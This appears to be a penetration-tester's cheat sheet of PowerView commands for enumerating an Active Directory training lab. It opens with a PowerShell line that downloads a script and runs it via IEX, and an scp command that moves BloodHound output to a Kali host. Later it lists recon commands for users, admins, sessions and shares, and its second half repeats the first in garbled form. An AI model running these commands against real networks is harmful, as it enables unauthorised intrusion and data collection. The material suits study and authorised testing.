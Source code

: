 # AD Enumeration

### Files transfer&#x20;

### Linux to Windows

{% code overflow="wrap" %}
```powershell
#from Linux to Windows
#Local
(new-object system.net.webclient).downloadstring('http://192.168.1.1/powerview.ps1') | IEX
#Remotly
(new-object system.net.webclient).downloadstring('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1') | IEX

```
{% endcode %}

### Windows to  Linux

<pre class="language-bash"><code class="lang-bash">scp local_file username@hostname_or_ip:/remote/path
#Example
<strong>scp 20240830124156_BloodHound.zip kali@10.50.57.149:/var/www/uploads
</strong></code></pre>

## PowerView Enumeration

### Get current domain

```
Get-NetDomain
```

### Get object of another domain

```
Get-NetDomain -Domain moneycorp.local
```

### Get domain SID for the current domain

```
Get-DomainSID
```

### Get domain policy for the current domain

```
Get-DomainPolicy
(Get-DomainPolicy)." system access"
```

### Get domain policy for another domain

```
(Get-DomainPolicy -domain moneycorp.local)."system access"
(Get-DomainPolicy -domain moneycorp.local)."kerberos policy"
(Get-DomainPolicy -domain moneycorp.local)."Privilege Rights"
# OR
(Get-DomainPolicy)."KerberosPolicy" #Kerberos tickets info(MaxServiceAge)
(Get-DomainPolicy)."SystemAccess" #Password policy
(Get-DomainPolicy).PrivilegeRights #Check your privileges
```

### Get domain controllers for the current domain

```
Get-NetDomainController
```

### Get domain controllers for another domain

```
Get-NetDomainController -Domain moneycorp.local
```

### Get a list of users in the current domain

```
Get-NetUser
Get-NetUser -Username student1
```

### Get list of all properties for users in the current domain

```
Get-UserProperty
Get-UserProperty -Properties pwdlastset,logoncount,badpwdcount
Get-UserProperty -Properties logoncount
Get-UserProperty -Properties badpwdcount
```

### Search for a particular string in a user's attributes

```
Find-UserField -SearchField Description -SearchTerm "built"
```

### Get a list of computers in the current domain

```
Get-NetComputer
Get-NetComputer -OperatingSystem "*Server 2016*"
Get-NetComputer -Ping
Get-NetComputer -FullData
```

### Get all the groups in the current domain

```
Get-NetGroup
Get-NetGroup -Domain <targetdomain>
Get-NetGroup -FullData
Get-NetComputer -Domain
```

### Get all groups containing the word "admin" in group name

```
Get-NetGroup *admin*
Get-NetGroup -GroupName *admin*
Get-NetGroup *admin* -FullData
Get-NetGroup -GroupName *admin* -Doamin moneycorp.local
```

### Get all the members of the Domain Admins group

```
Get-NetGroupMember -GroupName "Domain Admins" -Recurse
#test the below command
#Get-NetGroupMember -GroupName "Domain Admins" -Properties * | select DistinguishedName,GroupCategory,GroupScope,Name,Members
```

### Get the group membership for a user

```
Get-NetGroup -UserName "student1"
```

### List all the local groups on a machine (needs administrator privs on non-dc machines)

```
Get-NetLocalGroup -ComputerName dcorp-dc.dollarcorp.moneycorp.local -ListGroups
```

### Get members of all the local groups on a machine (needs administrator privs on non-dc machines)

```
Get-NetLocalGroup -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Recurse
```

### Get actively logged users on a computer (needs local admin rights on the target)

```
Get-NetLoggedon -ComputerName dcorp-dc.dollarcorp.moneycorp.local 
```

### Get locally logged users on a computer (needs remote registry on the target - started by default on server OS)

```
Get-LoggedonLocal -ComputerName dcorp-dc.dollarcorp.moneycorp.local 
```

### Get the last logged user on a computer (needs administrative rights and remote registry on the target)

```
Get-LastLoggedon -ComputerName <servername>
```

### Find shares on hosts in the current domain.

```
Invoke-ShareFinder -Verbose
```

### Find sensitive files on computers in the domain

```
Invoke-FileFinder -Verbose
```

### Get all fileservers of the domain

```powershell
Get-NetFileServerPowerView Enumeration
Get current domain
Get-NetDomain
Get object of another domain
Get-NetDomain -Domain moneycorp.local
Get domain SID for the current domain
Get-DomainSID
Get domain policy for the current domain
Get-DomainPolicy
(Get-DomainPolicy)."system access"
Get domain policy for another domain
(Get-DomainPolicy -domain moneycorp.local)."system access"
(Get-DomainPolicy -domain moneycorp.local)."kerberos policy"
(Get-DomainPolicy -domain moneycorp.local)."Privilege Rights"
# OR
(Get-DomainPolicy)."KerberosPolicy" #Kerberos tickets info(MaxServiceAge)
(Get-DomainPolicy)."SystemAccess" #Password policy
(Get-DomainPolicy).PrivilegeRights #Check your privileges
Get domain controllers for the current domain
Get-NetDomainController
Get domain controllers for another domain
Get-NetDomainController -Domain moneycorp.local
Get a list of users in the current domain
Get-NetUser
Get-NetUser -Username student1
Get list of all properties for users in the current domain
Get-UserProperty
Get-UserProperty -Properties pwdlastset,logoncount,badpwdcount
Get-UserProperty -Properties logoncount
Get-UserProperty -Properties badpwdcount
Search for a particular string in a user's attributes
Find-UserField -SearchField Description -SearchTerm "built"
Get a list of computers in the current domain
Get-NetComputer
Get-NetComputer -OperatingSystem "*Server 2016*"
Get-NetComputer -Ping
Get-NetComputer -FullData
Get all the groups in the current domain
Get-NetGroup
Get-NetGroup -Domain <targetdomain>
Get-NetGroup -FullData
Get-NetComputer -Domain
Get all groups containing the word "admin" in group name
Get-NetGroup *admin*
Get-NetGroup -GroupName *admin*
Get-NetGroup *admin* -FullData
Get-NetGroup -GroupName *admin* -Doamin moneycorp.local
Get all the members of the Domain Admins group
Get-NetGroupMember -GroupName "Domain Admins" -Recurse
#test the below command
#Get-NetGroupMember -GroupName "Domain Admins" -Properties * | select DistinguishedName,GroupCategory,GroupScope,Name,Members
Get the group membership for a user
Get-NetGroup -UserName "student1"
List all the local groups on a machine (needs administrator privs on non-dc machines)
Get-NetLocalGroup -ComputerName dcorp-dc.dollarcorp.moneycorp.local -ListGroups
Get members of all the local groups on a machine (needs administrator privs on non-dc machines)
Get-NetLocalGroup -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Recurse
Get actively logged users on a computer (needs local admin rights on the target)
Get-NetLoggedon -ComputerName dcorp-dc.dollarcorp.moneycorp.local 
Get locally logged users on a computer (needs remote registry on the target - started by-default on server OS)
Get-LoggedonLocal -ComputerName dcorp-dc.dollarcorp.moneycorp.local 
Get the last logged user on a computer (needs administrative rights and remote registry on the target)
Get-LastLoggedon -ComputerName <servername>
Find shares on hosts in current domain.
Invoke-ShareFinder -Verbose
Find sensitive files on computers in the domain
Invoke-FileFinder -Verbose
Get all fileservers of the domain
Get-NetFileServer
```
